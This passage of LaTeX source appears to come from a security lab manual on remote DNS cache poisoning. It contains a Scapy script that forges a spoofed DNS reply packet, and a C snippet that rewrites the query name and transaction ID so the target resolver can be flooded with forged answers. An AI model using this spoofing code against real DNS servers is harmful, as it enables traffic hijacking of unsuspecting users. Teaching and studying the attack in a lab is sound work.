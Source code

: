 \begin{lstlisting}[caption={\texttt{generate\_dns\_reply.py}}]
#!/usr/bin/python3
from scapy.all import *

# Construct the DNS header and payload
name   = 'twysw.example.com'
Qdsec  = DNSQR(qname=name)
Anssec = DNSRR(rrname=name, type='A', rdata='1.1.2.2', ttl=259200)
dns    = DNS(id=0xAAAA, aa=1, rd=0, qr=1, 
             qdcount=1, ancount=1, nscount=0, arcount=0, 
             qd=Qdsec, an=Anssec)

# Construct the IP, UDP headers, and the entire packet
ip  = IP(dst='10.0.2.7', src='1.2.3.4', chksum=0)
udp = UDP(dport=33333, sport=53, chksum=0)
pkt = ip/udp/dns

# Save the packet to a file
with open('ip.bin', 'wb') as f:
  f.write(bytes(pkt))
\end{lstlisting}

In a C program, we load the packet from the file \texttt{ip.bin}, and use
it as our packet template, based on which we create many similar packets,
and flood the target local DNS servers with these spoofed replies. For each
reply, we change three places: the transaction ID and the name
\texttt{twysw} occurred in two places (the question section and the answer
section).  The transaction ID is at a fixed place (offset  \texttt{28} from
the beginning of our IP packet), but the offset for the name \texttt{twysw}
depends on the length of the domain name. We can use a binary editor
program, such as \texttt{bless}, to view the binary file \texttt{ip.bin}
and find the two offsets of \texttt{twysw}. In our packet, they are at
offsets \texttt{41} and \texttt{64}.


The following code snippet shows how we make change to these fields. We change
the name in our reply to \texttt{bbbbb.example.com}, and then send out a
spoofed DNS replies, with transaction ID being \texttt{1000}.
In the code, the variable \texttt{ip} points to the beginning of the IP packet.  

\begin{lstlisting}
  // Modify the name in the question field (offset=41)
  memcpy(ip+41, "bbbbb" , 5);

  // Modify the name in the answer field (offset=64)
  memcpy(ip+64, "bbbbb" , 5);

  // Modify the transaction ID field (offset=28)
  unsigned short id = 1000;
  unsigned short id_net_order = htons(id);
  memcpy(ip+28, &id_net_order, 2);
\end{lstlisting}



